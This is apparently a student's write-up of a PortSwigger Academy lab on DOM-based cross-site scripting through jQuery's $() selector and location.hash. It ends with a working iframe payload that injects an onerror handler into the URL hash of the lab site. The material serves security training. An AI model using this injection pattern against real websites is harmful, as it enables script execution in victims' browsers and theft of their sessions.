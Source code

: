 This lab contains a [DOM-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based) vulnerability on the home page. It uses jQuery's `$()` selector function to auto-scroll to a given post, whose title is passed via the `location.hash` property.

To solve the lab, deliver an exploit to the victim that calls the `print()` function in their browser.

![[Client-Side Vulnerabilities/XSS/DOM XSS/labs/DOM XSS in jQuery selector sink using a hashchange event/images/jquery.png]]

The selector is present, hence by just appending to the url:

![[Client-Side Vulnerabilities/XSS/DOM XSS/labs/DOM XSS in jQuery selector sink using a hashchange event/images/payload.png]]

The code is executed, create the iframe and deliver to the victim:

```html
<iframe src="https://0a1700dd041a1829802899a1002300cb.web-security-academy.net#" onload="this.src+='<img src=1 onerror=print()>'">
```
